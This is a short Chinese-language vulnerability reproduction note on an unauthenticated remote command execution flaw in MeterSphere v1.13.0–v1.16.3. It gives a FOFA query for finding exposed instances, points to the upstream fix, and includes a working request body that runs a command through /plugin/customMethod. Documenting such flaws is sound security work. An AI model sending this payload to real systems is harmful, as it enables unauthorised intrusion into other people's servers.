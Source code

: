 # MeterSphere customMethod 远程命令执行漏洞

## 漏洞描述

2022年1月5日，知道创宇404积极防御实验团队发现了MeterSphere开源持续测试平台的一处漏洞，并向MeterSphere研发团队进行了反馈。通过该漏洞攻击者可以在未授权的情况下执行远程代码，建议MeterSphere平台用户，尤其是可通过公网访问的用户尽快进行升级修复。

## 漏洞影响

```
MeterSphere v1.13.0 - v1.16.3
```

## FOFA

```
body="MeterSphere"
```

## 漏洞复现

登陆页面

![image-20230424163040952](images/image-20230424163040952.png)

根据官方的修复可以看到目前版本的修复版本为删除代码片段

filterChainDefinitionMap.put("/plugin/**", "anon");

```
https://github.com/metersphere/metersphere/pull/9140/files
```

![image-20230424163652968](images/image-20230424163652968.png)

查看文件 /backend/src/main/java/io/metersphere/controller/PluginController.java

![image-20230424163710253](images/image-20230424163710253.png)

发送请求包

```
POST /plugin/customMethod

{"entry":"Evil","request":"id"}
```

![image-20230424163729245](images/image-20230424163729245.png)